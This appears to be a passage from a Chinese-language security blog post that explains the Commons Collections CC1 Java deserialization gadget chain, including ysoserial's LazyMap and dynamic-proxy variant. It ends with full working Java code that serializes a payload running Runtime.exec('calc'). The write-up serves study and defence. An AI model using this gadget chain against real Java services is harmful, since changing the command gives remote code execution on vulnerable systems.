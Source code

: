 翻开`AnnotationInvocationHandler`的初始化可以看出`AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2){}`，第一个参数有一个限制就是需要继承`Annotation`接口，随便在 idea 搜一搜就有很多。

执行但会发现出现了报错：
![](https://image.silente.top/img/s183.png)

原因是`java.lang.Runtime`对象并没有实现序列化接口，不能序列化；所以这里可以使用反射来获取`java.lang.Class`对象进而实现序列化，只需要对`transformerChain`进行改动：

![](https://image.silente.top/img/s184.png)

然后你会发现运行没有报错了，但似乎并没有弹出计算器 :<

进行动调发现是在`readObject`方法中并没有走到`setValue`这一步，原因在于`var7==null`。

往前看看会发现在之前，会把注解类的方法名和返回类型存进`var3`作为一组`key-value`，然后会提取出传入`Map`的`key`，通过在`var3`中`get`的方式找到对应的返回类，作为`var7`，那么不让它为`null`显然就可以查看注解类中的方法名，把之前构造的键对值中的`key`换成这个方法名就可。例如`Target.class or Retention.class`中的`value`方法。

![](https://image.silente.top/img/s185.png)

然后就会看到心心念的计算器 :>

在 ysoserial 中是使用的`LazyMap`，略微有点不一样。思路同样是调用`transformerChain`，但`LazyMap`是通过`AnnotationInvocationHandler::invoke->LazyMap::get`的方式触发，那么如何触发`invoke`呢，这里是利用了 Java 的动态代理机制，`AnnotationInvocationHandler`继承了`InvocationHandler`，就是一个代理类的`handler`，使用`Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);`就能完成代理的注入，即在对代理类操作之前，就会执行`AnnotationInvocationHandler::invoke`方法。

测试代码：

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",
                new Class[] {String.class, Class[].class},
                new Object[]{ "getRuntime", new Class[0]}
        ),
        new InvokerTransformer("invoke",
                new Class[] {Object.class, Object[].class},
                new Object[] {null, new Object[0]}
        ),
        new InvokerTransformer("exec",
                new Class[]{String.class},
                new Object[] {"calc"}
        ),
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map<Object, Object> innerMap = new HashMap<>();
innerMap.put("value", "xxxx");
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, outerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);

ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("attack.ser"));
oos.writeObject(handler);
oos.close();

ObjectInputStream ois = new ObjectInputStream(new FileInputStream("attack.ser"));
ois.readObject();
ois.close();
```
